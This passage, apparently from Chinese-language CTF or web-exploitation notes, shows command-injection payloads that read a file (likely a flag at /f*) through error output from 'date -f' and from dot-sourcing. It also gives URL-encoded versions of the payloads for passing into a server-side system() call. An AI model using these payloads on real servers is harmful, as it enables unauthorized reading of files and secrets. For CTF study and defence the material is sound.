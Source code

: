 ### date

使用指定格式显示时间，或者设置系统时间，有时用于suid提权。用法为：

```
date -f /f*
```

不需要完整文件名

但他本质上是一种报错读取，直接system传值是没回显的，我们要读取报错才行：

```
a=$(date -f /f* 2>&1);echo $a;
```

然后再编一下码：

```
a%3D%24(date%20-f%20%2Ff*%202%3E%261)%3Becho%20%24a%3B
```

![img](assets/32.png)

### 报错读取

linux里可以用点号执行shell脚本，同样，我们也可以用这种方法报错读取文件内容，前提是你的用户组有**读取文件的权限**：

```
a=$(. /f* 2>&1);echo $a;   #a%3D%24(.%20%2Ff*%202%3E%261)%3Becho%20%24a%3B
```
